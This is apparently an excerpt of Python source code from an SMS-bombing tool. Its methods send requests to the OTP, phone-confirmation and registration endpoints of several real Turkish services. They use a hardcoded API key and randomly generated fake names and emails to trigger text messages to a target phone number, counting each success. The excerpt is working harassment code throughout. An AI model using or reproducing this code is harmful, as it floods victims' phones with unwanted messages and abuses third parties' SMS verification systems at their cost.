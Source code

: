 
    #bodrum.bel.tr
    def Bodrum(self):
        try:
            url = "https://gandalf.orwi.app:443/api/user/requestOtp"
            headers = {"Apikey": "Ym9kdW0tYmVsLTMyNDgyxLFmajMyNDk4dDNnNGg5xLE4NDNoZ3bEsXV1OiE", }
            json={"gsm": "+90"+self.phone, "source": "orwi"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> gandalf.orwi.app")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> gandalf.orwi.app")

    #defacto
    def defacto(self):
      try:
        url = "https://www.defacto.com.tr/Customer/SendPhoneConfirmationSms"
        payload = {
            "mobilePhone" : f"0{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["Data"]
        if r1 == "IsSMSSend":
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> defacto")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> defacto")

    #ikinciyeni
    def ikinciyeni(self):
      try:
        url = "https://apigw.ikinciyeni.com/RegisterRequest"
        payload = {
            "accountType": 1,
            "email": f"{''.join(random.choices(string.ascii_lowercase + string.digits, k=12))}@gmail.com",
            "isAddPermission": False,
            "name": f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase, k=8))}",
            "lastName": f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase, k=8))}",
            "phone": f"{self.phone}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["isSucceed"]

        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> ikinciyeni")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> ikinciyeni")
